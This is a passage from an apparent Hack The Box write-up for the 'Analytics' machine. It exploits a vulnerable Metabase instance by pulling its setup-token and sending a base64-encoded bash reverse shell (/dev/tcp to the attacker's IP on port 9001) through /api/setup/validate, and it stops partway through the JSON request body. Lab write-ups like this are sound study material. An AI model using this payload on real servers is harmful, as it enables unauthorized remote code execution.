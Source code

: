 Vulnerable versions are before 46.6.1, by going to `http://data.analytica.htb/api/session/properties`, we can find the version to be `46.6`, so this is likely vulnerable! I `curl` the endpoint and pipe it to `jq` to make the `json` easier to read. There is still a ton of output so I `grep` for `vers`. I `-i` to be case insensitive, and `-A4` to display 4 lines after the found line.
```bash
┌──(kali㉿Kali)──[13:47:43]──[~/htb/Machines/Analytics]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq . | grep -iA 4 vers
<...SNIP...>
  "version": {
    "date": "2023-06-29",
    "tag": "v0.46.6",
    "branch": "release-x.46.x",
    "hash": "1bb88f5"
```
That blogpost has a working payload that I used to get a shell on the box.
The first thing I need is the `setup-token`, which once again I can find with `curl`
```bash
┌──(kali㉿Kali)──[13:58:57]──[~/htb/Machines/Analytics]
└─$ curl -s http://data.analytical.htb/api/session/properties | jq . | grep -iA 4 token
<...SNIP...>
  "setup-token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
  "application-colors": {},
  "enable-audit-app?": false,
  "anon-tracking-enabled": false,
  "version-info-last-checked": null,
```
I replace the token from the blogpost with this one.
Inside the payload in the `db` section is this line
```bash
exec('bash -c {echo,YmFzaCAgLWkgPiYvZGV2L3RjcC8xMC4xMC4xNS4zNC85MDAxICAwPiYx}|{base64,-d}|{bash,-i}')
```
The string after the `echo` command is a base64 encoded reverse shell. So all I need to do is encode my own reverse shell, and replace the one that's already there.
```bash
# I add spaces in a few spots to get rid of "+" and "="
echo 'bash -i  >& /dev/tcp/<MY IP>/9001  0>&1  ' | base64
YmFzaCAtaSAgPiYgL2Rldi90Y3AvPE1ZIElQPi85MDAxICAwPiYxICAK
```
I then browse to `http://data.analytics.htb/api/setup/validate` and capture the request in Burpsuite. I right click and hit "change request method" to switch it to a POST request. I also remove all of the headers except "Host" and "Content-Type" and "Content-Length". I change the "Content-Type" header to `application/json` I then copy in the payload and send it off
```http
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Type: application/json
Content-Length: 826

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
```